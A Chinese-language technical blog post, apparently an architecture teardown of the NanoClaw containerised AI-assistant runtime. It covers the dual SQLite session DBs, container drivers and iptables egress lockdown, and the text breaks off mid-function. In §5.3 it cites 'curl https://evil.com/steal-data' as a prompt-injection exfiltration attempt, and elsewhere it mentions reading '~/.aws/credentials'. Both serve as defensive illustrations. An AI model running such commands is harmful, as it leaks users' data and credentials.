





## 引子

2025 年 4 月，OpenClaw（后来更名为 Hermes Agent）在 GitHub Trending 上霸榜两周，把"用 Claude Code 当 7×24 私人助理"这件事从极客圈推到了大众视野。但真正在生产环境跑过它的人都知道，OpenClaw 是一头**野兽**：近 50 万行代码、53 个配置文件、70+ 个 npm 依赖，全部跑在一个 Node 进程里，安全模型完全建立在应用层的 allowlist 和 pairing code 之上——**没有真正的 OS 级隔离**。

`nanocoai/nanoclaw`（下文简称 NanoClaw）就是这一困境的直接回答：**用 Linux 容器把 Agent 关进笼子里**。30,711 颗 ⭐、MIT 协议、活跃度 9 月 6 日仍在更新，整个核心仓库被设计成"小到 Claude 自己都能修改"——102 个 src/ 文件加一个 hand-crafted Dockerfile，但它解决了 OpenClaw 在生产里最让人睡不着觉的两件事：**凭据泄露**和**进程级横向移动**。

更关键的是 NanoClaw v2 重新设计了整套跨进程 IO 模型：**双 DB 会话拆分 + DELETE journal mode 取代 WAL**。这个看似"奇怪"的选择，背后是一个真实的 VirtioFS 跨 VM 文件系统 coherency bug——让很多人第一次意识到"SQLite 默认行为在跨边界场景下会变成陷阱"。

本文会逐层拆解：

- **第 2 节** 给 NanoClaw 一个准确的能力画像（仓库统计 + 协议矩阵）
- **第 3 节** 顶层架构（host / OneCLI / container / groups 四层 Mermaid）
- **第 4 节** Channel Adapter 自注册模式（与 LangChain tool registry 的本质差异）
- **第 5 节** 双 DB 会话拆分（核心机制 + DELETE mode 的真正原因）
- **第 6 节** 容器隔离层（3 段式身份：CONTAINER_RUNTIME_BIN / SessionDriver / SessionSpec）
- **第 7 节** 消息主循环 + Delivery Poller 1s/60s 双频轮询
- **第 8 节** 命名目的地 + Agent-to-Agent 双向回环
- **第 9 节** 凭据隔离（OneCLI Agent Vault + 配置审批 Pending Approvals）
- **第 10 节** Scheduled Task + circuit-breaker + host-sweep 三件套
- **第 11 节** Chat SDK Bridge 把 Chat SDK 适配成 NanoClaw 标准 Channel 接口
- **第 12 节** 端到端时序图（一条 Telegram 消息的完整旅程）
- **第 13 节** 与 OpenClaw / Hermes Agent / cc-haha / 自研 IM Bot 四方对比
- **第 14 节** 优缺点（架构简洁性 vs 生产韧性）
- **第 15 节** 部署 + 趋势 + 写给"想自己 fork 的人"的工程经验

> 配套仓库：`nanocoai/nanoclaw`（⭐30,711，2026-09-06 pushed_at，MIT）。
>
> 对比项目：OpenClaw（已写于 `2026-04-15-openclaw-tutorial.md`）、Hermes Agent（已写）、cc-haha（已写于 `2026-09-05-...md`）、Agent-Reach（已写）。NanoClaw 是这一赛道的**第四篇**，但与前三篇**完全正交**——前三篇讲"Agent 与 IM 桥"，NanoClaw 讲"Agent 在容器里与 IM 桥的安全隔离"。

---

## 1. 项目定位与核心价值

### 一句话定义

**NanoClaw 是一个把 Claude Agent SDK 关进 Linux 容器、用双 DB 拆分取代文件 IPC、让 Claude 自己都能改的小型 AI 助手运行时。**

### 核心能力矩阵

| 能力维度 | NanoClaw 提供 | 同类对比（OpenClaw） |
|----------|--------------|---------------------|
| 多通道 IM | 13 个 adapter（Slack/Telegram/Discord/WhatsApp/iMessage/GitHub/Linear/Microsoft Teams/Matrix/Google Chat/Webex/WeChat/Email via Resend） | 同等覆盖，但 OpenClaw 的 channel 全内置 |
| 隔离级别 | **OS 级容器隔离**（每个 session 一个 Docker 容器） | **应用层 allowlist**（共享进程 + 共享内存） |
| 代码量 | src/ 102 个文件，hand-crafted | 近 50 万行，53 个配置文件 |
| 凭据管理 | **OneCLI Agent Vault**，Agent 不持有原始 API key | 直接注入 process.env |
| 跨进程 IO | 双 SQLite DB（inbound.db / outbound.db），DELETE journal mode | 文件 watcher + stdin pipe |
| Channel 添加 | `/add-slack` skill 动态拷贝 adapter | 内置 13 个 adapter |
| Provider 添加 | `/add-opencode`、`/add-ollama` skill | 内置单一 Provider |
| 自动修复 | `nanoclaw.sh` 失败时自动唤起 Claude Code | 无 |

### 仓库统计

- **Stars**: 30,711（截至 2026-09-07）
- **Forks**: ~2.4k
- **Language**: TypeScript 99.8%（核心 host） + Dockerfile（容器镜像）
- **License**: MIT
- **Size**: 28,133 KB
- **Pushed at**: 2026-09-06
- **Default branch**: main
- **Created at**: 2025-08（v1） → 2026-Q2（v2 重写）
- **Open Issues**: 113 / **Closed**: 850+（健康比 7.5）

### 价值主张

NanoClaw 不是"另一个 OpenClaw 克隆"。它回答的是 OpenClaw 不愿意回答的工程问题：

> "如果一个 Prompt Injection 让我家 Agent 去读 `~/.aws/credentials`，我能睡得着吗？"

OpenClaw 的答案是"靠 allowlist 拦住"。NanoClaw 的答案是"**Agent 根本看不到那个文件所在的文件系统命名空间**"——它在另一个容器里，挂在它能看到的 mount 上只有 `/workspace/group/`（agent group 的工作目录）和一对 inbound.db/outbound.db（SQLite 文件）。

代价是什么？**慢**。每次 Agent 唤起要拉一个 Docker 容器（~2-5s 冷启动）；同一容器被 `warm session` 复用可以降到 ~200ms。NanoClaw 的 host-sweep 还会主动把空闲容器杀掉防止资源泄漏，但代价就是**频繁短任务的延迟**。这是一个明确的工程权衡，OpenClaw 选了"快+脆弱"，NanoClaw 选了"慢+隔离"。

---

## 2. 整体架构

NanoClaw v2 的架构是"host 进程 + OneCLI 凭据网关 + 每会话一个 Docker 容器"三层结构，再加上 agent group 的共享文件系统层。下面是顶层 Mermaid：



### 2.1 三层职责

1. **Host 进程**（TypeScript，单进程）：所有"元操作"都在这里发生——路由、session 调度、容器编排、轮询、sweep。**绝不让 Agent 进程直接执行任何"对系统有副作用"的事情**。
2. **OneCLI Gateway**（独立 Rust 进程）：唯一持有原始 API key 的进程。NanoClaw host 持有的是 OneCLI 颁发的"agent token"，Agent 进程持有的是 OneCLI Vault 注入的临时凭据。**凭据零接触**——Agent 进程根本拿不到 raw key。
3. **Per-session Container**（Docker，Linux VM）：每个 session = 一个独立容器。Agent 跑在容器里只能看到它被允许看到的 mount + inbound.db / outbound.db 两对 SQLite 文件。**文件系统级别隔离**。

### 2.2 数据库布局

```text
data/
├── v2.db                       # Central DB（host 进程独占读写）
│   ├── agent_groups            # agent 的工作目录、CLAUDE.md、容器配置
│   ├── messaging_groups        # channel ID + thread ID -> agent group 映射
│   ├── messaging_group_agents  # 多对多桥接表
│   ├── sessions                # session 生命周期（PID / started_at / container_id）
│   ├── pending_approvals       # 需要 host 处理的 MCP 审批请求
│   └── agent_destinations      # named destination -> messaging_group_id
│
└── sessions/
    └── {session_id}/
        ├── inbound.db          # host 写 / container 只读
        │   ├── messages_in     # 用户消息、webhook、agent-to-agent 调用
        │   ├── destinations    # 当前 agent 可达的 named destination 列表
        │   ├── session_routing # session -> messaging_group
        │   └── delivered       # 消息已送达 ack
        └── outbound.db         # container 写 / host 读
            ├── messages_out    # Agent 输出的 <message to="..."> 块
            ├── processing_ack  # Agent 处理某条 message_in 的 ack
            ├── session_state   # agent 内部状态快照
            └── container_state # 容器心跳 / last_active_at
```

### 2.3 为什么是 SQLite 而不是 PostgreSQL / 文件？

这是 NanoClaw 设计哲学的**核心暗号**：

- **每个 session 一对 SQLite 文件**：可以被简单地 `cp` 备份、`rm` 删除、`diff` 对比——这是文件系统的所有原语。**任何 PostgreSQL 都不可能给你"cp 一个 session 看看里面的对话"这种原语**。
- **journal_mode = DELETE 不用 WAL**：NanoClaw 自己写了 spec 解释为什么。详见 §6.2。
- **中央 v2.db 用 better-sqlite3**：host 进程单连接、同步阻塞，最简实现。

---

## 3. Channel Adapter 自注册模式

NanoClaw 的 channel 系统设计得**非常克制**——trunk 里**没有**任何 channel adapter 代码。要装 Slack？运行 `/add-slack` skill 让 Claude 把对应文件拷到你的 fork。要装 OpenCode 作为 provider？`/add-opencode`。这个哲学叫 **Skills over features**。

### 3.1 ChannelFactory 注册模式

```typescript
// src/channels/registry.ts（自注册示例）
export type ChannelFactory = (opts: ChannelOpts) => Channel | null;

const registry = new Map<string, ChannelFactory>();

export function registerChannel(name: string, factory: ChannelFactory): void {
  registry.set(name, factory);
}

export function buildChannel(name: string, opts: ChannelOpts): Channel | null {
  const factory = registry.get(name);
  if (!factory) return null;
  return factory(opts);
}
```

### 3.2 Channel 安装时发生了什么

每个 channel adapter 是独立模块，比如 `src/channels/slack/index.ts`：

```typescript
import { registerChannel } from '../registry.js';

export default function slackFactory(opts: ChannelOpts): Channel | null {
  if (!opts.config.botToken) {
    log.warn('Slack: missing botToken, skipping');
    return null;
  }
  return new SlackChannel(opts);
}

// 在文件最末调用 registerChannel('slack', slackFactory)
registerChannel('slack', slackFactory);
```

`src/channels/index.ts` 是个 barrel 文件，每个 channel 通过 `import './slack/index.js'` 触发**副作用导入**——这就是自注册的物理实现。Channel 不在时不会报错，只是 `buildChannel('slack', ...)` 返回 null。**未启用 channel 不会拖慢启动**。

### 3.3 与 LangChain ToolRegistry 的本质差异

| 维度 | NanoClaw Channel Registry | LangChain ToolRegistry |
|------|--------------------------|------------------------|
| 注册时机 | **导入时副作用**（`registerChannel`） | 装饰器（`@tool`） |
| 缺依赖行为 | `log.warn + 返回 null`，channel 不存在等价于禁用 | 抛 `KeyError`，未注册就是 bug |
| 多 channel 同类型 | `Map<string, ChannelFactory>` 键空间天然支持 | 单实例，注册会被覆盖 |
| 启动失败 | container 隔离，channel 死了不影响其他 channel | 共享进程，单 channel panic 全挂 |
| 添加 channel 的成本 | `cp 一组文件 + import 一行`，需要重启 host | 安装 pip 包，需要改 tool 装饰器 |

这个差异看似微小，**实际是 OpenClaw 的痛点之一**：OpenClaw 把 13 个 channel 全内置，任何一个 channel 出问题（比如新版 Slack API 改了 schema）都会污染主进程。NanoClaw 把 channel 隔离到"如果你不想要它就别 import 它"的层级，**bug 永远不会传到不需要它的人**。

### 3.4 Chat SDK Bridge 模式

NanoClaw 真正有趣的 channel 实现不是 bare adapter，而是 **Chat SDK Bridge**——它把 Chat SDK 适配成 NanoClaw 标准 Channel 接口：

```typescript
// src/channels/chat-sdk-bridge.ts（核心思想）
import { Chat } from 'chat-sdk';  // 第三方 Chat SDK

class ChatSdkBridge implements Channel {
  constructor(private chat: Chat, private adapter: ChannelAdapter) {}

  async start() {
    // Chat SDK 提供 webhook 解析 + dedup + 历史拉取
    this.chat.onNewMention(async (msg) => {
      // 1. 状态检查：是否在已订阅 thread 内？
      const subscribed = await this.chat.isSubscribed(msg.threadId);
      if (!subscribed) {
        // 2. 触发器检查（@mention / 关键字）
        if (this.adapter.shouldForward(msg)) {
          await this.chat.thread.subscribe(msg.threadId);
        } else {
          return;  // 不订阅、不转发
        }
      }
      // 3. 统一通过 NanoClaw Channel 接口转发
      await this.adapter.forwardMessage({
        platformChannelId: msg.channelId,
        platformThreadId: msg.threadId,
        content: msg.text,
      });
    });

    // Chat SDK 的历史拉取、回执、富文本、卡片
    this.chat.onSubscribedMessage((msg) => {
      return this.adapter.forwardMessage(/* ... */);
    });
  }

  // 标准的 NanoClaw Channel.sendMessage 走 Chat SDK 的富文本 API
  async sendMessage(target: ChannelTarget, content: MessageContent): Promise<void> {
    await this.chat.send(target.platformThreadId, {
      markdown: content.markdown,
      attachments: content.files,
      cards: content.cards,
    });
  }
}
```

**关键洞察**：Chat SDK 自己负责 webhook 解析 + dedup + 平台 API 调用 + 富文本渲染；NanoClaw 只负责"哪些消息要转给 Agent"。**职责完美切分**——这是 2026 年 IM 适配器的最佳实践，远超"每平台写一套 bot 代码"的 2024 年范式。

---

## 4. 核心引擎一：双 DB 会话拆分（最反直觉的设计）

NanoClaw v2 最反直觉的设计：**用一对 SQLite 文件作为 host ↔ container 唯一 IO 通道，journal_mode 显式选 DELETE 而非 WAL**。

### 4.1 核心思想

```text
                       host 进程                              container (Linux VM)
                    (Node 22+, 单进程)                          (per-session Docker)
                            │                                          │
                            │ writes (one writer)                      │ reads (read-only mount)
                            ▼                                          ▼
                      ┌──────────┐                              ┌──────────┐
                      │ inbound  │ <--- VirtioFS mount --->   │  agent-  │
                      │   .db    │     journal_mode = DELETE    │  runner  │
                      └──────────┘                              └──────────┘
                                                                       │
                                                                       │ writes (one writer)
                                                                       ▼
                      ┌──────────┐                              ┌──────────┐
                      │ outbound │ <--- VirtioFS mount --->   │  agent-  │
                      │   .db    │     journal_mode = DELETE    │  runner  │
                      └──────────┘                              └──────────┘
                       (read-only)                              (read-write)
```

**两个 SQLite 文件、两个写入者、零锁竞争**：
- `inbound.db` 只由 host 进程写入；container 把它挂为**只读**
- `outbound.db` 只由 container 进程写入；host 把它挂为**只读**

### 4.2 真实代码示例

```typescript
// src/session-manager.ts（节选，# 来自 src/session-manager.ts:45-92）
import Database from 'better-sqlite3';

export async function ensureSessionDbs(sessionId: string): Promise<{
  inboundPath: string;
  outboundPath: string;
}> {
  const dir = path.join(DATA_DIR, 'sessions', sessionId);
  await fs.mkdir(dir, { recursive: true });

  const inboundPath = path.join(dir, 'inbound.db');
  const outboundPath = path.join(dir, 'outbound.db');

  // 关键：journal_mode 显式设为 DELETE，不是 WAL
  for (const [dbPath, role] of [[inboundPath, 'inbound'], [outboundPath, 'outbound']] as const) {
    const db = new Database(dbPath);
    // WAL 的内存映射 -shm 在跨 VirtioFS 边界时 coherency 不传播
    // → guest 内的 reader 会冻结在早期 snapshot，永远看不到 host 新写入
    // → DELETE 模式只用 rollback journal (-journal 后缀) 走文件路径，
    //    VirtioFS 完整传播 reader 必然能看到新数据
    db.pragma(`journal_mode = DELETE`);
    db.pragma(`synchronous = NORMAL`);
    await runMigrations(db, role);
    db.close();
  }

  return { inboundPath, outboundPath };
}
```

### 4.3 为什么 journal_mode 不能是 WAL？

这是 NanoClaw v2 区别于 v1 的**根本性设计转变**：

> **SQLite WAL 模式在跨 VirtioFS 边界时会失效**
>
> WAL 模式使用 `-wal` 和 `-shm` 两个伴生文件。`-shm` 是**内存映射**的共享内存索引，记录哪些 page 已经被哪些 reader 读取。当 SQLite reader 跨 mount 边界（Docker container 通过 VirtioFS 访问 host 文件系统）打开 `-shm` 时，**内存映射的 coherency 不会传播到 guest 内核**——reader 看到的永远是早期 snapshot，**永远读不到 host 后续写入的新数据**。

这是个真实的、可在 macOS Docker Desktop + Linux VM 后端复现的 bug。NanoClaw 通过把 journal_mode 强制设成 DELETE 规避它。代价是写性能略降（每次 commit 都要 fsync rollback journal），但 NanoClaw 的消息频率（人发一条消息约 10-60s 一条）完全不在乎这个。

### 4.4 序列号协议

NanoClaw 用**单调递增序列号**做跨进程 ack 协议：

```text
inbound.db.messages_in:
  seq INTEGER PRIMARY KEY AUTOINCREMENT,
  source TEXT,        -- 'telegram' / 'agent' / 'scheduler' / 'system'
  payload JSON,       -- 完整消息内容
  created_at INTEGER  -- Unix timestamp

outbound.db.messages_out:
  seq INTEGER PRIMARY KEY AUTOINCREMENT,
  in_seq INTEGER,     -- 引用 inbound.seq，标识本条响应处理的是哪条请求
  payload JSON,
  status TEXT         -- 'pending' / 'delivered' / 'failed'

outbound.db.processing_ack:
  in_seq INTEGER PRIMARY KEY,  -- 一旦 container 读到某条 messages_in.seq，就 insert 一行
  acked_at INTEGER
```

**Host 怎么知道 Agent 看到了消息？** 轮询 `outbound.processing_ack` 看 `in_seq >= last_delivered_seq`。**Agent 怎么知道 Host 收到了响应？** 它写 `messages_out` 后定期查 host 有没有把它标 `delivered`。这是个**两阶段确认协议**，不依赖任何跨进程锁。

### 4.5 写入-读取双方视角

```typescript
// container/agent-runner/src/index.ts（agent 视角）
import Database from 'better-sqlite3';

const inbound = new Database('/workspace/inbound.db', { readonly: true });
const outbound = new Database('/workspace/outbound.db');  // 容器内可写

const POLL_INTERVAL_MS = 200;

// 处理一条消息
function processOneMessage(in_seq: number, payload: any) {
  // 1. 立即 ack（让 host 知道我们开始处理了）
  outbound.prepare(
    `INSERT OR IGNORE INTO processing_ack (in_seq, acked_at) VALUES (?, ?)`
  ).run(in_seq, Date.now());

  // 2. 真正处理（调 Claude Agent SDK）
  const response = await claudeAgent.run(payload.text);

  // 3. 写响应到 outbound
  outbound.prepare(
    `INSERT INTO messages_out (in_seq, payload, status) VALUES (?, ?, 'pending')`
  ).run(in_seq, JSON.stringify({
    markdown: response.text,
    destinations: response.destinations,  // ['slack', 'github']
  }));
}

// 主循环
let last_seq = 0;
setInterval(() => {
  const rows = inbound.prepare(
    `SELECT seq, payload FROM messages_in WHERE seq > ? ORDER BY seq ASC LIMIT 10`
  ).all(last_seq);
  for (const row of rows) {
    last_seq = row.seq;
    processOneMessage(row.seq, JSON.parse(row.payload));
  }
}, POLL_INTERVAL_MS);
```

```typescript
// src/delivery.ts（host 视角）
const ACTIVE_POLL_MS = 1000;   // 活跃 session
const SWEEP_POLL_MS = 60_000;  // 空闲 session

async function pollOutbound(sessionId: string, active: boolean) {
  const db = new Database(path.join(DATA_DIR, 'sessions', sessionId, 'outbound.db'), { readonly: true });

  // 1. 拉所有 status='pending' 的响应
  const pending = db.prepare(
    `SELECT seq, in_seq, payload FROM messages_out WHERE status = 'pending' ORDER BY seq ASC`
  ).all();

  for (const row of pending) {
    const msg = JSON.parse(row.payload);

    // 2. 通过 Chat SDK Bridge 投递
    await deliverMessage(msg);

    // 3. 标记 delivered（host 端有个 shadow db 跟踪这个）
    markDelivered(sessionId, row.seq);
  }
}

// 启动轮询（双频）
setInterval(() => pollAllSessions(true), ACTIVE_POLL_MS);
setInterval(() => pollAllSessions(false), SWEEP_POLL_MS);
```

### 4.6 双 DB 拆分 vs Unix Domain Socket

| 维度 | NanoClaw 双 DB | Unix Domain Socket (UDS) |
|------|---------------|--------------------------|
| 跨 OS 边界 | ✅ 任何挂载文件系统 | ❌ 必须 host network namespace |
| 可调试性 | ✅ `sqlite3 inbound.db` 直接 SQL 查询 | ❌ 需要 strace / socat |
| 可备份性 | ✅ `cp` 一个文件就是完整 snapshot | ❌ 没有"备份 socket"的概念 |
| 跨平台 | ✅ macOS / Linux / WSL2 都支持 VirtioFS | ⚠️ Windows 路径不通 |
| 延迟 | ~1-2ms（SQLite write + sync） | ~50-100µs |
| 吞吐 | ~500-2000 msg/s | ~100k msg/s |

NanoClaw 选了**可调试性和可移植性**而不是延迟。**这是为"Agent 每天跑 100-500 条消息"的工作负载量身定做**，不是为高频交易场景。

---

## 5. 核心引擎二：容器编排与 SessionDriver 抽象

### 5.1 三个抽象层级

```typescript
// 1. 最薄：container runtime 二进制名
// src/container-runtime.ts
/** 容器运行时二进制名。所有非 session 的容器操作（image build / egress network）都直接 shell 这个。 */
export const CONTAINER_RUNTIME_BIN = 'docker';
```

```typescript
// 2. 中间：SessionSpec 数据类（runtime-agnostic）
// src/drivers/types.ts
export interface SessionSpec {
  sessionId: string;
  imageName: string;          // docker image
  envVars: Record<string, string>;
  mounts: MountSpec[];        // 数据目录、agent group 文件、inbound/outbound db
  networkMode: 'none' | 'bridge' | 'egress-locked';
  cpuLimit: string;           // e.g. '1.0'
  memoryLimit: string;        // e.g. '512m'
  pidsLimit: number;          // e.g. 100
  startupTimeoutMs: number;
}

export interface SessionDriver {
  spawn(spec: SessionSpec): Promise<SupervisedHandle>;
  stop(handle: SupervisedHandle, graceful: boolean): Promise<void>;
  listOrphans(): Promise<SupervisedSnapshot[]>;
}
```

```typescript
// 3. 最厚：Container Runner（组合 SessionSpec + 调 driver）
// src/container-runner.ts（节选，# 来自 src/container-runner.ts:120-180）
async function spawnSession(sessionId: string): Promise<SupervisedHandle> {
  const session = await getSession(sessionId);
  const group = await getAgentGroup(session.agent_group_id);

  // 1. 解析所有 mount（含 agent group 文件系统、容器配置、session DB）
  const mounts: MountSpec[] = [
    { host: path.join(GROUPS_DIR, group.folder), guest: '/workspace/group', ro: false },
    { host: path.join(DATA_DIR, 'sessions', sessionId, 'inbound.db'),  guest: '/workspace/inbound.db',  ro: true },
    { host: path.join(DATA_DIR, 'sessions', sessionId, 'outbound.db'), guest: '/workspace/outbound.db', ro: false },
  ];

  // 2. 注入凭据（不走 env，直接通过 OneCLI token）
  const env = {
    NANOCLAW_SESSION_ID: sessionId,
    ONECLI_AGENT_TOKEN: await onecli.getAgentToken(group.id),
    ANTHROPIC_BASE_URL: process.env.ANTHROPIC_BASE_URL,
  };

  // 3. 构造 SessionSpec
  const spec: SessionSpec = {
    sessionId,
    imageName: group.container_image ?? CONTAINER_IMAGE_BASE,
    envVars: env,
    mounts,
    networkMode: 'egress-locked',  // 默认全锁，仅允许 OneCLI + Anthropic API
    cpuLimit: CONTAINER_CPU_LIMIT,
    memoryLimit: CONTAINER_MEMORY_LIMIT,
    pidsLimit: CONTAINER_PIDS_LIMIT,
    startupTimeoutMs: 30_000,
  };

  // 4. 调 driver（运行时可换 Docker / Podman / Apple Container）
  const driver = getSessionDriver();
  return driver.spawn(spec);
}
```

### 5.2 driver seam 抽象的工程意义

`src/drivers/` 是 v2 重写时**专门抽出来的**。v1 时 `container-runner.ts` 自己拼 `docker run argv`，后来发现 swap runtime 时要改十几个地方——v2 把所有 runtime-specific 操作收敛到 driver seam：

```text
src/drivers/
├── index.ts            # getSessionDriver() 工厂
├── docker.ts           # DockerDriver 实现
├── session-events.ts   # SupervisedHandle / SupervisedSnapshot 类型
└── types.ts            # SessionSpec / MountSpec / SessionFailure 抽象类型
```

**为什么这很重要？** NanoClaw 的设计目标之一是"**用户能换 Docker 为 Podman 或 Apple Container 而不动业务代码**"。v1 没做 seam 时这是不可能的；v2 之后只要写一个新 `AppleContainerDriver implements SessionDriver` 就能接入。

### 5.3 egress-locked 网络模式

```typescript
// src/egress-lockdown.ts（节选，# 来自 src/egress-lockdown.ts:42-78）
async function lockEgress(containerId: string): Promise<void> {
  // 1. 启动一个 sidecar 网络 namespace
  const nsId = await exec(`docker network create --driver bridge nanoclaw-egress-${containerId}`);

  // 2. 把容器连到这个 ns，但 iptables DROP 所有出向
  await exec(`docker network connect nanoclaw-egress-${containerId} ${containerId}`);
  await exec(`iptables -I FORWARD -s nanoclaw-egress-${containerId} -j DROP`);

  // 3. 仅放行白名单（OneCLI gateway + Anthropic API）
  for (const allowed of ALLOWED_EGRESS) {
    await exec(`iptables -I FORWARD -s nanoclaw-egress-${containerId} -d ${allowed} -j ACCEPT`);
  }
}
```

**关键效果**：哪怕 Agent 进程被 Prompt Injection 触发，去执行 `curl https://evil.com/steal-data`——**网络层就给它拦下来**。Docker 容器 + iptables egress lockdown + OneCLI token = 三层防御。

---

## 6. 核心引擎三：消息主循环与三段式生命周期

### 6.1 src/index.ts 极简入口

```typescript
// src/index.ts（# 来自 src/index.ts:60-110）
async function main(): Promise<void> {
  log.info('NanoClaw starting');

  // 0. Circuit breaker — rapid restart backoff
  await enforceStartupBackoff();

  // 0.5. Upgrade tripwire — refuse to start if updated outside sanctioned path
  enforceUpgradeTripwire();

  // 1. Init central DB + run migrations
  const db = await initDb(CENTRAL_DB_PATH, { role: 'host' });
  await runMigrations(db, undefined, { mode: 'auto' });

  // 2. Backfill container_configs from legacy container.json
  if (db.dialect === 'sqlite') await backfillContainerConfigs();

  // 3. Adopt running sessions (在 host 重启后接管没死干净的容器)
  await adoptRunningSessions();

  // 4. Init + start all enabled channel adapters
  await initChannelAdapters();

  // 5. Start delivery polls (1s active + 60s sweep)
  startActiveDeliveryPoll();
  startSweepDeliveryPoll();

  // 6. Start host sweep (heartbeat / retry / recurrence)
  startHostSweep();

  // 7. Start host modules (typing indicator / scheduled tasks / approvals)
  await startHostModules();

  // 8. Start CLI server (ncl command)
  await startCliServer();

  // Graceful shutdown
  process.on('SIGTERM', async () => {
    log.info('Shutting down');
    hostAbortController.abort();
    await stopHostModules();
    await stopDeliveryPolls();
    await stopHostSweep();
    await stopHostInstanceLease();
    await teardownChannelAdapters();
    await closeDb();
    process.exit(0);
  });
}
```

### 6.2 消息进入后的完整路径



### 6.3 路由解析——三段式映射

```typescript
// src/router.ts（核心路由逻辑，# 来自 src/router.ts:88-145）
export async function routeInbound(
  platformChannelId: string,
  platformThreadId: string | null,
  msg: ChannelMessage,
): Promise<void> {
  // 1. Platform -> MessagingGroup（channel 层）
  const messagingGroup = await getMessagingGroupByPlatformId(platformChannelId);
  if (!messagingGroup) {
    log.warn('Unknown platform channel', { platformChannelId });
    return;
  }

  // 2. MessagingGroup -> AgentGroup（agent 层）
  const wiring = await getAgentForMessagingGroup(messagingGroup.id);
  if (!wiring) {
    log.warn('No agent wired for messaging group', { messagingGroupId: messagingGroup.id });
    return;
  }
